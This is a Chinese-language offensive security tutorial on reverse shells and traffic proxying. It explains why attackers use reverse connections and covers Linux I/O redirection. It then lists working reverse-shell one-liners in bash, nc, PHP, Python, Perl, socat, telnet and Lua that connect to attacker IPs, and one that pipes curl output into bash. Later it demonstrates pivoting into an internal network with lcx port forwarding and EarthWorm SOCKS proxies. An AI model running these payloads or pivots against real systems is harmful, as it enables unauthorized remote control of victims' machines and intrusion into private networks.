

反弹及代理
反弹shell
为什么需要反弹连接
假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。
那么什么情况下正向连接不太好用了呢？
1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
2.它的ip会动态改变，你不能持续控制。
3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。
那么反弹就很好理解了， 攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。
linux 反弹shell 讲解
在谈反弹shell前，我们需要了解一下Linux的重定向符以及设备码。
重定向设备码
Linux的文件描述符有以下三种
标准输入：0
标准输出：1
错误输出：2
重定向符
输出重定向 > >>
输出重定向是指命令的结果不再输出到显示器上，而是输出到其它地方，一般是文件中。这样做的最大好处就是把命令的结果保存起来，当我们需要的时候可以随时查询。
Bash 支持的输出重定向符号如下表所示。
| 类 型 | 符 号 | 作 用 |
|---|---|---|
| 标准输出重定向 | command >file | 以覆盖的方式，把 command 的正确输出结果输出到 file 文件中。 |
| command >>file | 以追加的方式，把 command 的正确输出结果输出到 file 文件中。 | |
| 标准错误输出重定向 | command 2>file | 以覆盖的方式，把 command 的错误信息输出到 file 文件中。 |
| command 2>>file | 以追加的方式，把 command 的错误信息输出到 file 文件中。 | |
| 正确输出和错误信息同时保存 | command >file 2>&1 | 以覆盖的方式，把正确输出和错误信息同时保存到同一个文件（file）中。 |
| command >>file 2>&1 | 以追加的方式，把正确输出和错误信息同时保存到同一个文件（file）中。 | |
| command >file1 2>file2 | 以覆盖的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中。 | |
| command >>file1 2>>file2 | 以追加的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中。 | |
| command >file 2>file | 【不推荐】这两种写法会导致 file 被打开两次，引起资源竞争，所以 stdout 和 stderr 会互相覆盖， | |
| command >>file 2>>file |
输入重定向 < <<
输入重定向就是改变输入的方向，不再使用键盘作为命令输入的来源，而是使用文件作为命令的输入。
| 符号 | 说明 |
|---|---|
| command <file | 将 file 文件中的内容作为 command 的输入。 |
| command <<END | 从标准输入（键盘）中读取数据，直到遇见分界符 END 才停止（分界符可以是任意的字符串，用户自己定义）。 |
| command |
将 file1 作为 command 的输入，并将 command 的处理结果输出到 file2。 |
我们可以尝试一下：
需要注意的是 >、>>、<、<< 他们都是默认为标准输入输出，也就是 1> 或者 0< 。而如果我们想把错误信息输出就需要使用 2>
那么如果我们想把正确的命令输出到一个文件中，如果命令错误的话就输出到另外一个文件中，应该怎么做呢。
可以看到结果，正确的输出到一个文件，错误的输出到另一个文件
那么如果我们想把正确和错误的数据都输出到同一个文件怎么做最简单呢。其实我们在命令末尾添加上 2>&1 就可以了
那么为什么我们要去添加 & 符呢，这是为了和文件做区分，我们知道 Linux下一切皆文件，那么如果这里没有这个 & 符，系统就会把 1 理解成文件。而不是标准输出。所以这里的 & 符，其实是做描述符使用的。
常用的反弹 shell 方式
Bash
我们先看一下常见的 bash 反弹shell 的 payload
1 | /bash -i >& /dev/tcp/192.168.1.1/4433 0>&1 |
逐步分解
/bash -i : 创建一个交互式 shell
/dev/tcp/ip/port : /dev/tcp,打开这个文件就类似于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。注意：/dev/tcp本身是不存在的
>& : 将交互式的shell传给我们的远程主机
0>&1 : 将输出的窗口上所输入的值当作当前窗口的输入（反弹shell后会有两个窗口，即靶机的shell窗口跟攻击机的shell口。这命令的意思也可以理解为，将攻击机窗口的输入当作靶机窗口的输入最终输入给靶机。2代表标准错误输出。）
Curl
1 | curl 192.168.1.12/bash |bash |
| 管道符，将左边命令的输出作为右边命令的输入
Exec
1 | exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done |
1 | 0<&196;exec 196<>/dev/tcp/192.168.5.3/6666; sh <&196 >&196 2>&196 |
用法：
1.exec 命令 ;命令代替shell程序，命令退出，shell 退出；比如 exec ls
2.exec 文件重定向，可以将文件的重定向就看为是shell程序的文件重定向 比如 exec 5</dev/null;exec 5<&-
NC
NC如果可以使用 -e参数那么就可以直接进行shell的反弹
1 | nc -e /bin/sh 192.168.1.1 4433 |
如果不能使用 -e
1 | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 207.246.86.81 4433 >/tmp/f |

类似命令
1 | mknod backpipe p; nc 192.168.146.129 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe |
PHP
exec
1 | php- 'exec("/bin/bash -i >& /dev/tcp/192.168.1.1/4433")' |
socket
1 | php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");' |
Python
1 | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.21.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' |
Perl
1 | perl -e 'use Socket;$i="192.168.21.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' |
Socat
1 | socat exec:'bash -i',pty,stderr,setsid,sigint,sane tcp:192.168.21.1:8080 |
Telnet
1 | mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe |
Lua
1 | lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');" |
Windows 反弹shell
windows下可以使用powershell去下载，powercat,nishang等攻击脚本进行反弹shell,但其实没啥必要，使用MSF，CS等直接上线目标权限，其实更方便。这里就不细讲了。感兴趣的同学，可以自行探索。
端口转发与映射
端口转发
端口转发，有时被叫做隧道，是安全壳为网络安全通信使用的一种方法。端口转发是转发一个网络端口从一个网络端口转发到另一个网络端口或从一个网络节点转发到另一个网络节点的行为，其使一个外部用户从外部经过一个被激活的NAT路由器到达一个在私有内部IP地址（局域网内网）上的一个端口。
简单来说，端口转发就是将一个端口，这个端口可以本地的端口也可以是访问到任意主机的端口，转发到任意一台可以访问的IP上，通常这个IP是公网IP。
端口映射
将内网的端口映射到公网的某个端口，就是将这个端口的流量转发到公网主机上的某个端口。当别人访问这个被转发到公网上的端口，那么公网主机的被转发端口流量将发回给内网主机。
应用场景
端口映射：外网主机A想访问内网主机B上的服务
端口转发：外网主机A已经可以访问内网主机B里的任意端口，但是无法访问内网主机C上的端口，此时可以将C主机的端口转发到主机B端口，那么外网主机A访问了内网主机B就等于访问了内网主机C。
端口转发攻击演示
场景：
攻击者获取到了 边界服务器B的权限，同时也获取到了目标内网服务器C的权限，现在攻击者想要直接访问目标内网的3389服务。
实验环境模拟
环境配置
1.VM 网络编辑器，添加一个仅主机，取消红框中的勾选
2.为 centos 添加一个网卡，并选择刚刚创建的虚拟网络
3.将内网 win7 主机也设置为刚刚创建的虚拟网络
4.为内网 win7 开启3389 端口
1 | wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1 |
netstat -an | findstr 3389 查看开启成功
5.关闭centos7的防火墙
1 | systemctl stop firewalld.service |
攻击演示 LCX
内网Windows主机C：
lcx.exe -slave [边界服务器IP/VPS] 6666 [受害机C IP] 3389 //把肉机的3389端口 转发到 边界/VPS 6666端口上
边界服务器B：
./lcx -listen 6666 8888 //监听6666端口并转发到8888端口
攻击者A：
访问边界服务器/VPS 的8888端口，即可连接目标内网的3389
流量代理工具演示：
环境还是刚刚那个环境
ew正向代理
我们在边界服务器B上，开启SOCKS 代理，然后在攻击机A上添加好代理，即可访问目标内网C
1 | ./ew_for_linux64 -s ssocksd -l 10085 |

EW反向代理
假设我们获取到了目标内网机器C权限，并且C可以访问外网。
/ew_for_linux64 -s rcsocks -l 1080 -e 1024 &
ew_for_Win.exe -s rssocks -d 120.xxx.xxx.xx -e 1024